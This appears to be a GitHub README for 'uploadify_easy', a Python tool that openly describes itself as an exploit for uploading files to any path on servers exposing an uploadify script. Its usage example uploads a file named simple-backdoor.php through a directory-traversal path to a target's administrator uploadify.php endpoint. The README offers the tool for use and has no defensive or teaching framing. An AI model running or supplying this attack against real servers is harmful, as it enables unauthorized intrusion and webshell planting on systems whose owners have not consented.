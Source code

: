 # uploadify_easy
_exploit_

The purpose of this tool is to automate the upload process in case there is a utility on an uploadify server. It could be considered as an exploit since it allows you to upload files to any system path by writing to it.


## Usage
```python3 uploadify_easy.py File2Upload RemotePath TargetUrl```
### Example
``` python3 uploadify_easy.py simple-backdoor.php ../../../../../../../tmp/ http://<target>/administrator/js/uploadify/uploadify.php ```
